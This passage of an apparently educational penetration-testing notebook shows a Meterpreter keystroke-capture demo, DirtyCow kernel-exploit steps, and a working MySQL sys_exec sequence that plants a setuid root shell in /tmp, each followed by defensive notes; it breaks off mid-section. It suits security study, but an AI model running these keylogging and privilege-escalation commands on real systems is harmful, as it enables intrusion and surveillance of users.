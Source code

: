```bash
Starting the keystroke sniffer ...

# 7. Dump captured keystrokes
meterpreter > keyscan_dump
Dumping captured keystrokes...
```

![[Pasted image 20250415084921.png]]
![[Pasted image 20250415085248.png]]
**Educational Notes:**

- This demonstrates why users should be cautious about downloading and executing files
- Shows the importance of endpoint protection solutions
- Highlights how process migration can be used for persistence
## Privilege Escalation Methods

### Four Key Privilege Escalation Techniques

#### 1. Kernel Exploits

```bash
# Example: DirtyCow exploit (Linux Kernel <= 3.19.0-73.8)
# 1. Identify kernel version
$ uname -a

# 2. Search for applicable exploits
$ searchsploit Linux Kernel 3.19

# 3. Download, compile and execute the exploit
# This particular exploit replaces the 'root' user with a new user by editing /etc/passwd
```

**Educational Notes:**

- Kernel exploits leverage vulnerabilities in the operating system kernel
- Keeping systems updated is critical to prevent these attacks
- Privilege separation helps contain the impact of successful exploits
#### 2. Exploiting Services Running as Root

```bash
# Example: Exploiting MySQL running as root
$ ps -aux | grep root
# Identify MySQL running as root

mysql> select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
mysql> exit
$ /tmp/sh
# whoami
root
```

**Educational Notes:**
